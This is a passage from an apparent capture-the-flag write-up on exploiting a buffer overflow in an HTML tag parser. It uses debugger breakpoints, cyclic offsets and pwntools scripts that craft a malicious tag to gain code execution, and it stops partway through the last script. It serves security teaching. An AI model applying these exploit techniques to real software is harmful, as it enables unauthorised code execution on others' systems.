 NOTE: Webview has a strong cache setting, therefore cache needs to be cleared before each visit with CTRL+F5

If we now open our program and set a write breakpoint at 0x12b0e (with `bpm w 12b0e`) we can see our write routine and how our overwrite happens

![image-20230313104920207](https://gfelber.dev/img/anal_over_dbg.png)

Using `cylic_find('acaa')+4` we see that the overflow starts after 11 chars. We also see that our overwrite routine checks for null bytes with `test al, al`, which is why we need to exclude null chars. We can now rewrite our script to jmp into our tag like this:

```python
#!/bin/python
from pwn import *

HEADER = b'<html><body>'
MAX_LENGTH=0x100000

def tagger(tag):
  return b'<' + tag + b'/>'

gen = cyclic_gen()
exploit = gen.get(0xb)
# don't overwrite lodsb intruction to keep overwrite routine going
exploit += asm('lodsb')
# jmp location doesn't matter because we only write the first byte
exploit += asm('jmp $')
# realine gen.get
gen.get(len(exploit)-0xb)
# make sure our exploit is 
exploit += gen.get(0x20 - len(exploit))

print(exploit.hex())
with open('test.htm', 'wb') as exploithtm:
  exploithtm.write(HEADER)
  exploithtm.write(tagger(exploit))
```

![image-20230313104920207](https://gfelber.dev/img/jmp_over_dbg.png)

We once again use `cyclic_find('aafa')` to see our first code execution starts at offset 18.

##### Jumping to User controlled memory

Because our controlled code execution starts at offset 18 we only have about 14 bytes of RCE (32-18), which isn't enought to read and extract our flag, that is why we need to jmp into user controlled memory, were we can execute more Instructions.

```python
#!/bin/python
from pwn import *

HEADER = b'<html><body>'
MAX_LENGTH=0x100000


def tagger(tag):
  return b'<' + tag + b'/>'

gen = cyclic_gen()
exploit = gen.get(0xb)
exploit += asm('lodsb')
exploit += asm('jmp $')
# align cyclic
gen.get(len(exploit)-0xb)
# align tag
```